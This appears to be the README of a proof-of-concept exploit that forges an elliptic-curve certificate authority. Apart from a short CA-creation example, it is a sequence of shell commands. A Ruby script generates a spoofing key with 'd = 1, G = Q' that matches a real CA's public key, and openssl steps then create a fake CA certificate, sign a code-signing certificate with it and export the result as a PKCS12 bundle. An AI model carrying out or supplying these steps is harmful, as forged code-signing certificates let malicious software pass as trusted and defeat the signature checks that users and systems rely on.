 You can create a CA with the following command:

    $ openssl ecparam -name secp384r1 -genkey > ca.key
    $ openssl req -new -x509 -key ca.key -out ca.crt

The PoC assumes you have the certificate of the CA you wish to spoof. In the following example, the certificate uses NIST P-384 (secp384r1) curve, but this works for different curves as well.

    # forge a spoofing key, where d = 1, G = Q
    $ ruby main.rb > fake.key 

    # generate a spoofing certificate with the spoofing key
    $ openssl req -new -x509 -key fake.key -out fake.crt 

    # generate a key for your own certificate:
    $ openssl ecparam -name secp384r1 -genkey > cert.key 

    # request a certificate signing request for code signing:
    $ openssl req -new -key cert.key -out cert.csr -config openssl.conf 

    # sign the certificate request with our fake certificate and fake key
    $ openssl x509 -req -days 365 -in cert.csr -CA fake.crt -CAkey fake.key -out cert.crt -CAcreateserial

    # pack the certificate with its key and the fake certificate into a pkcs12 file
    $ openssl pkcs12 -export -in cert.crt -inkey cert.key -certfile fake.crt -out cert.p12

